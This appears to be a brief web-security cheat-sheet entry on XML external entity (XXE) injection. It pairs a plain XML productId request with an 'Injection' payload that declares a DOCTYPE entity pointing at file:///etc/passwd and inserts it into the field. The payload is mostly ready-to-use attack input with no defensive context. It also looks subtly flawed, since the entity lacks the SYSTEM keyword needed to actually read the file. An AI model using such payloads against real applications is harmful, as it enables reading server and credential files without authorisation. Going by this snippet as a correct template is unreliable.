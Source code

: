 #xmli #xxe #xml

## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection
```xml
<?xml version="1.0"?>
<!DOCTYPE replace [<!ENTITY myVar 'file:///etc/passwd'>]>
<productId>&myVar;</productId>
```